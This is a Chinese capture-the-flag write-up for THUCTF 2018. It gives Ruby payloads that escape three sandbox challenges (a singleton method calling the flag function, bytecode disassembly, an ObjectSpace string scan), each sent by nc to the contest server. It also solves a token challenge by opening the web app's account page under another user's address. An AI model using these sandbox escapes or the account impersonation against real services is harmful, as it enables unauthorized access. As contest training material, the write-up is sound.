 ## Ruby Master - Level 1
题目通过 `seccomp` 限制了不能读，因此读取源代码肯定是无效的了

事实上，再定义一个公有函数就行了

```Ruby
def p.x; flag; end; p.x
```

即执行

```sh
echo 'def p.x; flag; end; p.x' | nc misc.thuctf2018.game.redbud.info 4001
```

## Ruby Master - Level 2
反汇编

```Ruby
RubyVM::InstructionSequence.disasm(self.method(:get_flag))
```

即执行

```sh
echo 'RubyVM::InstructionSequence.disasm(self.method(:get_flag))' | nc misc.thuctf2018.game.redbud.info 4002
```

## Ruby Master - Level 3
使用 `ObjectSpace`

```Ruby
ObjectSpace.each_object(String){|o|puts o if /F{.{9,}}/=~o}
```

即执行

```sh
echo 'ObjectSpace.each_object(String){|o|puts o if /F{.{9,}}/=~o}' | nc misc.thuctf2018.game.redbud.info 4003
```

## RedbudToken1 - Welcome
我比较弱 TwT

我就看别人谁和 `0x29047AA8B731cd5474E06b6c1Ff8eF03191fCBb2` 有交易记录，比如在

```URL
https://ropsten.etherscan.io/tx/0x2850b61b64571ef0d4a99b384f29e341cf5307cf18beb16bdbcc137e184b3034
```

中有
`0x5151d68558dfe67f9448116bee00f3e33e281a3a` 给他汇款了，那么就以他的身份访问

```URL
http://40.83.100.81:9900/account/0x5151d68558dfe67f9448116bee00f3e33e281a3a
```
